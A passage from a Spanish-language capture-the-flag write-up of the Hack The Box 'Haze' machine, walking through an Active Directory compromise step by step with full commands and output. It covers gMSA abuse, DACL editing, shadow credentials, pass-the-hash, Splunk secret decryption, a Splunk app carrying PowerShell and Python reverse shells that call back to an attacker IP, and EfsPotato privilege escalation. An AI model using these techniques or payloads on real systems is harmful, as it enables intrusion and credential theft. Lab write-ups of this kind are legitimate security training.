❯ evil-winrm -i 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
 
Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami
haze\mark.adams
*Evil-WinRM* PS C:\Users\mark.adams\Documents> dir -force


    Directory: C:\Users\mark.adams\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hsl          7/3/2025  11:34 PM                My Music
d--hsl          7/3/2025  11:34 PM                My Pictures
d--hsl          7/3/2025  11:34 PM                My Videos


*Evil-WinRM* PS C:\Users\mark.adams\Documents> dir -force ..\desktop
*Evil-WinRM* PS C:\Users\mark.adams\Documents> 
```

Para nuestra mala suerte, no esta aqui, pero eso no nos quita el hecho de enumerar un poco, empezando desde la raiz del sistema o como se conoce tradicionalmente `Disco local C:\`:

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> dir -force C:\


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs-          5/8/2021   1:20 AM                $Recycle.Bin
d--h--         3/25/2025   2:22 PM                $WinREAgent
d-----          3/5/2025  12:32 AM                Backups
d--hsl          3/4/2025  10:59 PM                Documents and Settings
d-----         3/25/2025   2:06 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          3/4/2025  11:28 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d--h--          7/3/2025   4:53 PM                ProgramData
d--hs-          3/4/2025  10:59 PM                Recovery
d--hs-          3/4/2025  11:12 PM                System Volume Information
d-r---          7/3/2025  11:34 PM                Users
d-----         3/25/2025   2:15 PM                Windows
-a-hs-          7/3/2025  11:01 AM          12288 DumpStack.log.tmp
-a-hs-          7/3/2025  11:01 AM     1476395008 pagefile.sys


*Evil-WinRM* PS C:\Users\mark.adams\Documents> dir -force C:\Backups
*Evil-WinRM* PS C:\Users\mark.adams\Documents> 
```

Ok, tenemos algo interesante ("Backups") pero al parecer no disponemos de privilegios para ver eso o para entrar en la carpeta siquiera, so, probemos que podemos hacer usando la herramienta de `Bloodhound`, inicialmente corriendola con `bloodhound-python` para enumerar lo que seria todo el DC.

Como nota extra, para que no tengamos problemas con kerberos a la hora de hacer esto, lo mejor es con el siguiente comando, sincronizar nuestra maquina con el DC:

```bash
❯ sudo ntpdate -s 10.10.11.61
[sudo] password for unknown: 
unknown@LetMeHere:~/Documents/Ctfs/htb/labs/haze/Writeup/bloodhound$
```

Y ahora ejecutamos el `bloodhound`:

```bash
❯ bloodhound-python -d haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -c ALL -ns 10.10.11.61
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 8 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 16S
```

Nos deberia dejar los soguientes archivos:

```bash
❯ ls -l
.rw-r--r-- unknown grasa   0 B  Thu Jul  3 21:01:29 2025  20250703210121_computers.json
.rw-r--r-- unknown grasa  24 KB Thu Jul  3 21:01:29 2025  20250703210121_containers.json
.rw-r--r-- unknown grasa 3.0 KB Thu Jul  3 21:01:29 2025  20250703210121_domains.json
.rw-r--r-- unknown grasa 3.8 KB Thu Jul  3 21:01:27 2025  20250703210121_gpos.json
.rw-r--r-- unknown grasa  83 KB Thu Jul  3 21:01:26 2025  20250703210121_groups.json
.rw-r--r-- unknown grasa 3.2 KB Thu Jul  3 21:01:27 2025  20250703210121_ous.json
.rw-r--r-- unknown grasa  18 KB Thu Jul  3 21:01:25 2025  20250703210121_users.json
.rw-r--r-- unknown grasa  74 B  Fri Jul  4 05:04:12 2025  20250704050400_computers.json
.rw-r--r-- unknown grasa  24 KB Fri Jul  4 05:04:08 2025  20250704050400_containers.json
.rw-r--r-- unknown grasa 3.0 KB Fri Jul  4 05:04:08 2025  20250704050400_domains.json
.rw-r--r-- unknown grasa 3.8 KB Fri Jul  4 05:04:05 2025  20250704050400_gpos.json
.rw-r--r-- unknown grasa  83 KB Fri Jul  4 05:04:05 2025  20250704050400_groups.json
.rw-r--r-- unknown grasa 3.2 KB Fri Jul  4 05:04:06 2025  20250704050400_ous.json
.rw-r--r-- unknown grasa  18 KB Fri Jul  4 05:04:04 2025  20250704050400_users.json
.rw-r--r-- unknown grasa 3.7 KB Fri Jul  4 05:04:39 2025  20250704050423_computers.json
.rw-r--r-- unknown grasa  24 KB Fri Jul  4 05:04:31 2025  20250704050423_containers.json
.rw-r--r-- unknown grasa 3.0 KB Fri Jul  4 05:04:32 2025  20250704050423_domains.json
.rw-r--r-- unknown grasa 3.8 KB Fri Jul  4 05:04:29 2025  20250704050423_gpos.json
.rw-r--r-- unknown grasa  83 KB Fri Jul  4 05:04:29 2025  20250704050423_groups.json
.rw-r--r-- unknown grasa 3.2 KB Fri Jul  4 05:04:29 2025  20250704050423_ous.json
.rw-r--r-- unknown grasa  18 KB Fri Jul  4 05:04:27 2025  20250704050423_users.json
```

Bueno, sin tantos archivos pero es que lo habia ejecutado varias veces porque a lo primero daba un error, pero, al importarlo a Bloodhound (En mi caso utilizo el CE) no deberia haber problema.

Una vez que tengamos acceso a bloohound e importado los datos, pues vemos al usuario que habiamos previamente comprometido para ver que podemos hacer con el:



Vale, nos muestra que este user pertenece al grupo de `GMSA-MANAGERS`, probemos con netexec si podemos obtener algo pasandole el parametro `--gmsa`:

```bash
❯ netexec ldap 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [*] Getting GMSA Passwords
LDAP        10.10.11.61     389    DC01             Account: Haze-IT-Backup$      NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: Domain Admins
```

En teoria podriamos pero a la vez no... Esto sucede porque posiblemente aun no hemos heredado los permisos para efectuar dicha tarea. 

En esta pagina de [microsoft](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adserviceaccount?view=windowsserver2025-ps) se nos muestra el como podiamos asignar a un autorizado a recuperar la clave (en este caso el hash nt) de el usuario que tiene GMSA, en este caso, la computadora.

Utilizaremos los siguientes comandos para la tarea:

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity Haze-IT-backup$ -PrincipalsAllowedToRetrieveManagedPassword "CN=MARK ADAMS,CN=USERS,DC=HAZE,DC=HTB"
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount Haze-IT-Backup$ -Properties PrincipalsAllowedToRetrieveManagedPassword


DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Mark Adams,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :


*Evil-WinRM* PS C:\Users\mark.adams\Documents> 
```

Vale, ahora si ejecutamos el mismo comando anterior de netexec, nos da lo siguiente:

```bash
❯ netexec ldap 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [*] Getting GMSA Passwords
LDAP        10.10.11.61     389    DC01             Account: Haze-IT-Backup$      NTLM: 723fd747a7523dbebfc5b1d3d759ffbf     PrincipalsAllowedToReadPassword: mark.adams
```

Perfecto, tenemos el NT hash de la computadora, volvamos a `Bloodhound` para ver que podemos hacer con ella:



Algo curioso, es que la computadora aparece como usuario, y no hay nadie dentro de ese grupo. Sin embargo, un truco que me mostraron y que es eficiente, es ejecutar un nuevo bloodhound cada que aparece un nuevo usuario pwned, por lo que, ejecutemos de nuevo ahora con el hash (en otra carpeta OJO):

```bash
❯ bloodhound-python -d haze.htb -u 'Haze-IT-Backup$' --hashes :723fd747a7523dbebfc5b1d3d759ffbf -c ALL -ns 10.10.11.61
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 9 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 19S
```

E importandolo nuevamente a `bloodhound` para ver al PC comprometido vemos lo siguiente:



(No se porque razon no aparece como PC pero supondre que es porque no borre el upload anterior :p)

Si vemos a continuacion, tenemos un permiso de cambiar la pass de Edward, aunque para llegar a el primero debemos de abusar de el `writeowner` que tenemos sobre el grupo para heredar esos permisos, lo haremos con los siguientes comandos, tal y como se nos explica en esta [web](https://www.hackingarticles.in/abusing-ad-dacl-writeowner/):

```bash
❯ owneredit.py -action write -new-owner 'Haze-IT-Backup$' -target-dn "CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB" haze.htb/Haze-IT-Backup$ -hashes :723fd747a7523dbebfc5b1d3d759ffbf -dc-ip 10.10.11.61
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-323145914-28650650-2368316563-1111
[*] - sAMAccountName: Haze-IT-Backup$
[*] - distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
[*] OwnerSid modified successfully!
```

Perfecto, ahora el siguiente para editar el ACL que tenemos por el nuevo (ACL se refiere a Lista de Control de Acceso)

```bash
❯ dacledit.py -principal 'Haze-IT-Backup$' -action 'write' -rights 'WriteMembers' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 haze.htb/Haze-IT-Backup$ -hashes :723fd747a7523dbebfc5b1d3d759ffbf
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250704-062706.bak
[*] DACL modified successfully!
```

Perfecto, ahora que heredamos los permisos de el grupo, podemos ahora agregarnos al grupo para heredar completamente los permisos:

```bash
❯ bloodyAD --host dc01.haze.htb -d haze.htb --dc-ip 10.10.11.61 -u 'Haze-IT-Backup$' -p :723fd747a7523dbebfc5b1d3d759ffbf add groupMember support_services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ added to support_services
```

Perfecto, ahora si podemos abusar de los permisos que disponemos. Como? Lo haremos con certipy haciendo un `ShadowCredentialAttack` con la herramienta de certipy de la siguiente forma:

```bash
❯ certipy shadow auto -u 'Haze-IT-Backup$' -hashes :723fd747a7523dbebfc5b1d3d759ffbf -account edward.martin -target dc01.haze.htb -dc-ip 10.10.11.61 -dc-host 10.10.11.61
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8c1262f8-fbb1-596d-e5b2-7c231c2ced5e'
[*] Adding Key Credential with device ID '8c1262f8-fbb1-596d-e5b2-7c231c2ced5e' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '8c1262f8-fbb1-596d-e5b2-7c231c2ced5e' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

Perfe, tenemos el hash NT de martin, verifiquemos en bloodhound que podemos hacer con el:



Vale, podemos autenticarnos via `evil-winrm` como el, ahora, no olvidemos el truco de bloodhound para cada usuario, pero eso lo haremos en un momento, por otro lado, tenemos tambien que martin es miembro del `Backup_Reviewers`, si recordamos un poco mas atras, encontramos una carpeta de backup a la que no teniamos acceso, posiblemente ahora si podamos con esta cuenta, entremos a traves de `evil-winrm` a traves de un ataque `PTH` (`Pass The Hash`) para ver:

```bash
❯ evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> dir -force C:\Backups


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:33 AM                Splunk


*Evil-WinRM* PS C:\Users\edward.martin\Documents> 
```

Tenemos acceso, de paso, verifiquemos si este es el user.txt:

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> dir ..\Desktop\


    Directory: C:\Users\edward.martin\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          7/3/2025  11:01 AM             34 user.txt


*Evil-WinRM* PS C:\Users\edward.martin\Documents> type ..\Desktop\user.txt
41a37e0************************
*Evil-WinRM* PS C:\Users\edward.martin\Documents> 
```

Y asi tenemos la primera parte de la maquina :p

Para la escalada, dado que encontramos algo interesante en la carpeta de "Backups", pues enumeremos todo lo que esto contiene:

```powershell
*Evil-WinRM* PS C:\backups> dir -force


    Directory: C:\backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:33 AM                Splunk


*Evil-WinRM* PS C:\backups> dir -force splunk


    Directory: C:\backups\splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip


*Evil-WinRM* PS C:\backups> 
```

Nos encontramos con lo que seria un backup de la aplicacion web que se esta alojando en el DC, asi que a continuacion procederemos a descargarla y descomprimirla para ver su contenido:

```powershell
*Evil-WinRM* PS C:\backups> download splunk\\splunk_backup_2024-08-06.zip
                                        
Info: Downloading C:\backups\splunk\splunk_backup_2024-08-06.zip to splunk_backup_2024-08-06.zip
                                        
Info: Download successful!
*Evil-WinRM* PS C:\backups> 
```

Y una vez que lo descomprimimos vemos la siguiente estructura de archivos:

```bash
❯ ls Splunk
 bin             etc                license-eula.txt   Python-3.7          share                                           var
 cmake           lib                openssl.cnf        quarantined_files   splunk-9.2.1-78803f08aabb-windows-64-manifest  
 copyright.txt   license-eula.rtf   opt                README-splunk.txt   swidtag 
```

Lo mejor seria buscar por archivos que nos interesen, tipo password, o similar... Tal y como lo hicimos cuando comprometimos al primer usuario. Lo podemos hacer con el comando `find` tal y como lo pongo a continuacion:

```bash
❯ find ./ -name "auth*" 2>/dev/null
```

Con esto estamos diciendo, que todo lo que tenga de nombre "auth" y mas, que lo muestre, y el resultado nos da algunos archivos de interes, entre los cuales se encuentran archivos de autenticacion... Puede que esto nos sirva igual que al principio:

```bash
./etc/system/default/authorize.conf
./etc/system/default/authentication.conf
./etc/system/README/authorize.conf.example
./etc/system/README/authorize.conf.spec
./etc/system/README/authentication.conf.spec
./etc/system/README/authentication.conf.example
./etc/auth
./var/lib/splunk/authDb
./var/run/splunk/confsnapshot/baseline_default/apps/splunk_assist/default/authorize.conf
./var/run/splunk/confsnapshot/baseline_default/apps/splunk_secure_gateway/default/authorize.conf
./var/run/splunk/confsnapshot/baseline_default/system/default/authorize.conf
./var/run/splunk/confsnapshot/baseline_default/system/default/authentication.conf
./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
./share/splunk/authScriptSamples
./share/splunk/authScriptSamples/authentication.conf.dumb
./share/splunk/authScriptSamples/authentication.conf.radius
./share/splunk/authScriptSamples/authentication.conf.pam
```

Revisando los archivos de autenticacion, nos encontramos con lo siguiente:

```bash
❯ /usr/bin/cat ./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
[default]

minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0


[Haze LDAP Auth]

SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP                                                                  
```

Justo como vimos al principio, la unica diferencia es que este posiblemente sea un hash distinto, pero no importa, mejor quitaros la duda que tenerla. De la misma manera que obtuvimos la pass de el primer usuario (con splunk-secrets) lo haremos con este. Tendremos que buscar para esto el splunk-secret tal como lo hicimos, por lo que, con el mismo comando, verifiquemos si esta en este backup:

```bash
❯ find ./ -name "splunk.secret" 2>/dev/null
./etc/auth/splunk.secret
```

Lo tenemos :]

Ahora de la misma forma que hicimos, veamos el cntenido y descifremoslo con la herramienta.

```bash
❯ cat ./etc/auth/splunk.secret
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: ./etc/auth/splunk.secret
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oP
       │ hVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Esto lo mandamos a un archivo.

```bash
❯ echo "CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B" > splunk2.secret
```

Y por ultimo desciframos:

```bash
❯ splunksecrets splunk-decrypt --splunk-secret splunk2.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Sp1unkadmin@2k24
```

Y nos da la pass `Sp1unkadmin@2k24`, probando con netexec las credenciales nos da lo siguiente:

```bash
❯ netexec smb 10.10.11.61 -u alexander.green -p 'Sp1unkadmin@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Sp1unkadmin@2k24 STATUS_LOGON_FAILURE
```

No nos da algo de interes desafortunadamente, pero... Si probamos estas credenciales contra el login de la web?



Desafortunadamente si es con alex no nos da acceso, pero si probamos con un nombre basico como `admin`?



PWNED!

Ahora que tenemos acceso al panel administrativo, podemos hacer mas cosas aqui... Podriamos probar a por un `File Upload` para ver si es posible obtener una reverse shell y asi ver con que usuario caemos, esperando que sea el alex claro. Buscando en la web, nos encontramos con este:



El cual esta muy bien explicado y facil de entender... Bueno, a todo esto, clonemos el repositorio y hagamos lo que instruye:

```bash
❯ git clone https://github.com/0xjpuff/reverse_shell_splunk.git
Cloning into 'reverse_shell_splunk'...
remote: Enumerating objects: 23, done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 23 (from 1)
Receiving objects: 100% (23/23), 5.16 KiB | 5.16 MiB/s, done.
Resolving deltas: 100% (4/4), done.
❯ cd reverse_shell_splunk
❯ ls
 README.md   reverse_shell_splunk
```

Dentro de la carpeta de `reverse_shell_splunk` tenemos una carpeta `bin`, que es alli donde se encuentran los payloads... modificandolo el que usaremos, nos debe quedar algo asi:

```bash
❯  bin
❯ ls
 rev.py   run.bat   run.ps1
❯ cat *
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rev.py
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import sys,socket,os,pty
   2   │ 
   3   │ ip="attacker-ip-here"  
   4   │ port="attacker port here"  
   5   │ s=socket.socket()  
   6   │ s.connect((ip,int(port)))  
   7   │ [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
   8   │ pty.spawn('/bin/bash')  
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: run.bat
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ @ECHO OFF
   2   │ PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
   3   │ Exit
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: run.ps1
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #A simple and small reverse shell. Options and help removed to save space. 
   2   │ #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
   3   │ $client = New-Object System.Net.Sockets.TCPClient('attacker_ip_here',attacker_port_here);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%
       │ {0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$
       │ sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendb
       │ ack2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
   4   │ 
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nano run.ps1
❯ cat run.ps1
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: run.ps1
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #A simple and small reverse shell. Options and help removed to save space. 
   2   │ #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
   3 ~ │ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.25',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $st
       │ ream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $da
       │ ta 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write
       │ ($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
   4   │ 
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Una vez que tenemos esto listo, deberiamos salir hacia donde estabamos y escribir los siguientes comandos:

```bash
❯ tar -czvf reverse_shell_splunk.tgz reverse_shell_splunk
reverse_shell_splunk/
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.bat
❯ mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
```

Ahora, pongamonos en otra ventana en escucha:

```bash
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
```

Y subamos el archivo a la web a ver si nos puede dar shell con los siguientes pasos:

Nos dirigimos a la ventana de `Manage`



Luego a `Install app from file`



Clickamos en `Choose File`



Y buscamos el archivo que habiamos comprimido y renombrado (La shell en este caso)



Y le damos en `Upload`





Y una vez que tenemos esto, si revisamos nuestra consola, observa que tenemos:

```powershell
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.61 59831
whoami
haze\alexander.green
PS C:\Windows\system32> 
```

Tenemos shell, y somos alex :]

Ejecutando un `whoami /priv` vemos los siguientes permisos:

```powershell
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Tenemos el permiso de `SeImpersonatePrivilege`, critico... Ya que este nos permite subplantar la identidad de el usuario que queramos, siempre y cuando exista en el Dominio o la computadora. Para nuestra buena suerte, disponemos de una herramienta llamada `EfsPotato`, la cual nos permite abusar de este privilegio para hacernos `nt authority/system`.

Accediendo como el usuario que tenemos con `evil-winrm`, subamos el exploit y compilemoslo:

```powershell
❯ evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

Crearemos una carpeta en `C:\` la cual llamaremos `tools`:

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> mkdir C:\tools


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          7/8/2025   9:47 PM                tools


*Evil-WinRM* PS C:\Users\edward.martin\Documents> cd C:\tools
*Evil-WinRM* PS C:\tools> upload ../EfsPotato.cs
  
Info: Uploading /home/unknown/Documents/Ctfs/htb/labs/haze/Writeup/reverse_shell_splunk/../EfsPotato.cs to C:\tools\EfsPotato.cs

Data: 33920 bytes of 33920 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\tools> 
```

Perfecto, volviendo a la shell como alex, compilemoslo con el siguiente comando (Por lo general, casi siempre se le instala el Microsoft .Net a las computadoras Windows, asi que asumamos que esta lo tiene para la tarea):

```powershell
cd C:\tools
PS C:\tools> C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
Microsoft (R) Visual C# Compiler version 4.8.4161.0

for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.


This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

PS C:\tools> dir


    Directory: C:\tools


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          7/8/2025   9:47 PM          25441 EfsPotato.cs                                                         
-a----          7/8/2025   9:52 PM          17920 EfsPotato.exe                                                        


PS C:\tools> 
```

Perfecto, se ha compilado sin problema alguno... Ahora, ejecutemoslo para ver que sucede de la siguiente forma:

```powershell
PS C:\tools> .\EfsPotato.exe 'whoami'
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HAZE\alexander.green
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=b7bc20)
